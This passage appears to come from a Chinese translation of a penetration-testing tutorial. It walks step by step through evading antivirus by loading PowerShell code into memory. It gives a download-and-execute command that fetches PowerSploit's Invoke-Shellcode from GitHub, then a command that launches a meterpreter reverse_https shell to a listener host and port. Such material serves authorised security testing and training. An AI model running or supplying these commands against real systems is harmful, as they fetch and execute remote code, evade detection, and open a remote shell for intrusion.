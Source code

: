 3.  这里的诀窍是下载 PowerShell 脚本并将其加载到内存中，因为它从未保存在 HDD 上，所以防病毒软件不会检测到它。
4.  我们首先通过运行`powershell`检查 PowerShell 是否已安装：

![](img/b53aad5b-05ae-465e-a69a-5f0ce4a0fed5.png)

5.  我们将使用命令。使用单引号很重要；否则，可能会出现缺少括号的错误：

```
 powershell IEX (New-Object Net.WebClient).DownloadString
      ('https://raw.githubusercontent.com/PowerShellMafia/
      PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1')
```

![](img/4d7c0558-ad8f-413e-b3ff-cfcea063b805.png)

6.  我们不应该看到任何错误。现在脚本已全部设置好，我们调用模块并使用以下命令查看帮助：

```
 Get-Help Invoke-Shellcode
```

![](img/2757b763-17ef-4760-abee-66ab407f67ca.png)

7.  现在我们运行模块：

```
 powershell Invoke-Shellcode -Payload
      windows/meterpreter/reverse_https -Lhost 192.168.110.33
      -Lport 4444 –Force
```

![](img/116bd076-38a2-4350-9eca-30768454a207.png)
